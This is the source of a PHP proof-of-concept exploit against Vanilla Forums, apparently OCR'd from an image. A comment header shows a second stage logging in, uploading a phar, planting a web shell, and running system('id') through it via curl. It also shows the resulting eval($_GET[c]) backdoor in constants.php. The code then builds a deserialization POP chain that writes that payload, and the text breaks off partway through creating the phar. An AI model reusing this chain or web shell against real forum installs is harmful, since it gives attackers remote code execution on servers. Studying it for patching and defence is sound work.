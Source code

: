 ````php

- This is the file that generates the payload to help trigger the bug
- The default path to the constants.php file is '/var/www/html/conf/constants.php', please change it in your poc
  if needed. I have installed my version of Vanilla Forums in /var/www/html

## Example:

The following steps are used to re-create the vulnerability:

1. We create our phar file:

`saturn:~ mr_me$ php poc-stage-1.php`

3. We run the poc-stage-2.py which will trigger the bug

```
saturn:~ mr_me$ ./poc-stage-2.py.py 172.16.175.143 admin:admin123
(+) targeting: http://172.16.175.143
(+) logged in!
(+) uploaded phar!
(+) leaked phar name!
(+) triggered a write!
(+) shell at: http://172.16.175.143/?c=phpinfo();

saturn:~ mr_me$ curl -sSG "http://172.16.175.143/?c=system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, on the victim box:

```
steven@pluto:/var/www/html/conf$ cat constants.php 
<?php if (!defined('APPLICATION')) exit();
$a=eval($_GET[c]);//[''] = '';

// Last edited by admin (172.16.175.1)2018-09-16 00:59:01steven@pluto:/var/www/html/conf$
```
*/

// custom pop chain, as used in other exploits
class Gdn_ConfigurationSource{
    public function __construct(){
        $this->Type = "file";
        $this->Source = "/var/www/html/conf/constants.php";
        $this->Group = 'a=eval($_GET[c]);//';
        $this->Settings[""] = "";       
        $this->Dirty = true;
        $this->ClassName = "Gdn_ConfigurationSource";
    }
}
class Gdn_Configuration {
    public $sources = [];
    public function __construct(){
        $this->sources['si'] = new Gdn_ConfigurationSource();
    }
}

// create new Phar
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

````